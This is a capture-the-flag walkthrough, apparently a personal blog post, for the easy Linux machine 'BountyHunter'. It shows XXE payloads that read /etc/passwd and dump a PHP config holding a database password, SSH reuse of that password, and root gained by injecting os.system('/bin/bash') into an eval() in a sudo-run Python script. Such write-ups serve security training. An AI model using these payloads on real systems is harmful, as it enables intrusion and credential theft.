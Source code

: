 ## **BOUNTY HOUNTER**

Machine Difficulty: <span style="color:#39e600">Easy</span> | Machine OS: <span style="color:#39e600">Linux</span>

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/a24c032885e56a17a6c74cc58b63e8f4.png?raw=true)

Bounty hunter is an easy box based on well known vulnerability with a twist. For the initial foothold if you find the path you have to follow it and when it comes to end think a little bit different (OWASP will help you a lot). The root is straightforward, maybe you stuck for a bit, but if you combine some things you will get what you want!

----



**Nmap Scan**

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010535743.png?raw=true)

**Gobuster Scan**

![image-20210808143902953](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143902953.png?raw=true)

Accessing the /portal.php we see a bounty report form.

![image-20210808143133909](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143133909.png?raw=true)

Let's take the request in burp and analyze it a little bit.

![image-20210808143249434](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143249434.png?raw=true)

```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ%2BdGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

Base64 decode. We see it id xml and that is a good sign!

 ```
 <?xml  version="1.0" encoding="ISO-8859-1"?>
 		<bugreport>
 		<title>test</title>
 		<cwe>test</cwe>
 		<cvss>test</cvss>
 		<reward6É•Ý…É�'Vw&W'C`
 ```

It brakes a little bit. We have to URL decode first and then base64 decode.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

**XXE payload**

Create a new **ENTITY** called xxe, **SYSTEM** is a keyword that let the XML parser know that the ENTITY type is **EXTERNAL**

More about XXE on  [PortSwigger](https://portswigger.net/web-security/xxe/ ) 

````
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1</reward>
		</bugreport>

````

Final PoC with URL and base64 encoded

```
data= PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT5UZXN0PC9jd2U%2BCgkJPGN2c3M%2BMTIzPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

*Response:*

![image-20210727231428484](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210727231428484.png)

We successfully read the **/etc/passwd** file!

I tried to find the id_rsa of the user **developemt**, to access the **/etc/shadow**, to access the the **db.php** but all was a dead end.

Until I used filter base64 to access the **db.php**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

![image-20210730010636672](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010636672.png)

We got a base64 string response

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

*Decoded*. 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We successfully login with ssh as **development**.

![image-20210730010919988](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010919988.png?raw=true)

****



## **Privilege Escalation**

My fav command **sudo -l**

![image-20210730012727472](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730012727472.png?raw=true)

Let's locate ticketValidator.py and examine it.

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

There is also and a folder with invalid tickets, this will help us!

![image-20210730013101639](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-2021073001053003.png?raw=true)

Invalid ticket (/opt/skytrain_inc/invalid_tickets)

```
# Skytrain Inc
## Ticket to Bridgeport
__ticket code:__
**18+71+8**
##Issued: 2021/06/21
#End Ticket

```

After some time modifying my **test.md** this is the final PoC for root.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+71 + __import__('os').system('/bin/bash')
```

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![image-20210730171259804](![image](https://user-images.githubusercontent.com/37916133/128634760-61853e7d-24cc-4b84-85f1-d631497f6d53.png))

ROOT ROOT ROOT!

<span style="font-family:Papyrus; font-size:2em;">Happy Hacking!</span> 



